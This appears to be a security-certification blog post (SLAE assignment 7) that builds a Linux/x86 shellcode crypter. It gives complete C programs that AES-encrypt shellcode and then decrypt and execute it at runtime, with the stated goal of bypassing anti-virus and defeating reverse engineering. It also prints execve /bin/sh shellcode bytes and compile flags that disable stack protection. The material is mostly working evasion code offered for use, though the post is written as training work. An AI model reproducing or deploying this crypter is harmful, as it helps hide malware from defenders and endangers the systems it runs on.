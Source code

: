 ```yaml
---
layout: post
title: CUSTOM_CRYPTER – LINUX/X86
description: Writing crypter's using Libgcrypt.
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 7
* Github: [Kartik Durg](https://github.com/kartikdurg)

___

In this post we will aim to create a custom shellcode crypter. This crypter program will encrypt our shellcode and then execute it after successful decryption at runtime, in order to bypass anti-virus and defeat reverse engineering analysis.

References:

* [Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
* [Libgcrypt](https://www.gnupg.org/software/libgcrypt/index.html)
* [The Libgcrypt Reference Manual](https://www.gnupg.org/documentation/manuals/gcrypt.pdf)

For this post I decided to use C language, to encrypt/decrypt our shellcode using advanced encryption standard with 256-bits which wouldn’t be so easy without “Libgcrypt”.

“Libgcrypt” is basically a cryptographic library that provides methods to all cryptographic building blocks. For example: AES, Camellia, CAST5, ChaCha20,etc…

The C code below represents the usage of Libgcrypt library for our shellcode encryption:

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <gcrypt.h>

//Hardcoded password
const char *key = "iamjboyy";
//Setup IV
uint8_t iv[16] = {0x05};

uint8_t shellcode[] = <"YOUR_SHELLCODE_HERE>";

int main(){

int i, cipher = gcry_cipher_map_name("aes256");
size_t len = strlen(shellcode);
uint8_t *encrypt = malloc(len);

gcry_cipher_hd_t hd;
//Open cipher
gcry_cipher_open(&hd, cipher, GCRY_CIPHER_MODE_OFB, 0);
//Set key for cipher
gcry_cipher_setkey(hd, key, 16);
//Set iv
gcry_cipher_setiv(hd, iv, 16);
//Encrypt
gcry_cipher_encrypt(hd, encrypt, len, shellcode, len);

printf("Encrypted shellcode: \n");
for(i=0; i<len; i++){
printf("\\x%02x", encrypt[i]);
}
printf("\n");

return 0;
}
```

Now, lets make use of “exceve-stack” shellcode  and then encrypt the same using our crypter:

```
==> execve-stack:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
```

Compiling the code:

```
gcc encrypt_shellcode.c -o encrypt_shellcode -lgcrypt -fno-stack-protector -z execstack
```

Once executed it encrypts the above generated shellcode as below:

![](/media/7-crypter-1.jpg)

___

Now that we have an encrypted shellcode, lets decrypt and execute it using the below C code:

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <gcrypt.h>

//Hardcoded password
const char *key = "iamjboyy";
//Setup IV
uint8_t iv[16] = {0x05};


uint8_t shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

uint8_t encryptedshellcode[] = "\x3f\x60\xc7\xf5\xc3\x39\xc8\x42\x7e\x65\xc2\x40\xf3\x5c\xfc\x46\x15\x50\x2b\xc0\x9e\xde\xcf\xa5\xef";

int main(){

    int i, cipher = gcry_cipher_map_name("aes256");
    size_t len = strlen(shellcode);
    uint8_t *decrypt = malloc(len);

    gcry_cipher_hd_t hd;
    //Open cipher
    gcry_cipher_open(&hd, cipher, GCRY_CIPHER_MODE_OFB, 0);
    //Set key for cipher
    gcry_cipher_setkey(hd, key, 16);
    //Set iv
    gcry_cipher_setiv(hd, iv, 16);
    //Decrypt
    gcry_cipher_decrypt(hd, decrypt, len, encryptedshellcode, len);
    
    int (*ret)() = (int(*)())decrypt;
    printf("Running shellcode...\n");
    ret();
	
    gcry_cipher_close(hd);
    free(decrypt);
    return 0;
}
```

Compiling and executing the shellcode:

```
gcc decrypt_shellcode.c -o decrypt_shellcode -lgcrypt -fno-stack-protector -z execstack
```

![](/media/7-crypter-2.jpg)

As noticed, our shellcode was well decrypted and executed.

___

[https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x7](https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x7)

Thank you for reading 🙂

– Kartik Durg